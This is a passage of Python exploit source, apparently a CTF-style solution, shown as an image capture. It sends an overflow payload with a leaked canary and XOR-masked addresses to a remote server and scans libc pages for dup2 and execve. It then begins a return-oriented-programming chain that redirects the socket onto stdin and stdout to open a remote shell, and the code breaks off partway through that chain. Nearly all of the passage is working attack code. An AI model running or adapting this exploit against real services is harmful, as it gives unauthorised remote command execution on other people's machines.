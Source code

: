 ```python
            payload += p64(canary ^ Ds)
            payload += p64(buffer_addr ^ Ds)
            payload += p64(text_section_leave_ret ^ Ds)

            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect(SERVER)
            s.recv(4096)  # server hello
            s.send(payload)

            page_data = s.recv(page_size)
            if len(page_data) == 0:
                break

            if dup2_start in page_data:
                dup2_remote_addr = libc_page + page_data.index(dup2_start)
                print "Found dup2 @ {}".format(hex(dup2_remote_addr))

            
            if execve_start in page_data:
                execve_remote_addr = libc_page + page_data.index(execve_start)
                print "Found execve @ {}".format(hex(execve_remote_addr))


            s.close()
            libc_page += page_size  # scan down
        except EOFError:
            break

    print "libc scan over"
    text_section_close_plt = text_section_base + 0x960


    # Final payload for remote shell
    payload = "davide" + "AA"  # address of that is buffer_start_addr

    # close(0)
    payload += p64(gadget_pop_rdi_ret ^ Ds)  # first, we ret here <---- (
    payload += p64(0x0 ^ Ds)                 # pop this to RDI
    payload += p64(text_section_close_plt ^ Ds)           # ret there

    # close(1)
    payload += p64(gadget_pop_rdi_ret ^ Ds)  # return from above to here
    payload += p64(0x1 ^ Ds)                 # pop this to RDI
    payload += p64(text_section_close_plt ^ Ds)           # ret there

    # dup2(4,0)
    payload += p64(gadget_pop_rdi_ret ^ Ds)  # return from above to here
    payload += p64(0x4 ^ Ds)                 # pop this to RDI (socket's FD)
    payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds) # ret to this gadget
    payload += p64(0x0 ^ Ds)                 # pop rsi
    payload += p64(0xdeadbeefdeadbeef)       # pop r15 (dont care)
    payload += p64(dup2_remote_addr ^ Ds)           # call dup2

    # dup2(4,1)
    payload += p64(gadget_pop_rdi_ret ^ Ds)  # return from above to here
    payload += p64(0x4 ^ Ds)  # pop this to RDI (socket's FD)
    payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)  # ret to this gadget
    payload += p64(0x1 ^ Ds)  # pop rsi
    payload += p64(0xdeadbeefdeadbeef)  # pop r15 (dont care)
    payload += p64(dup2_remote_addr ^ Ds)  # call dup2

    # When back from dup2, load arguments for execve
    payload += p64(gadget_pop_rdi_ret ^ Ds)
```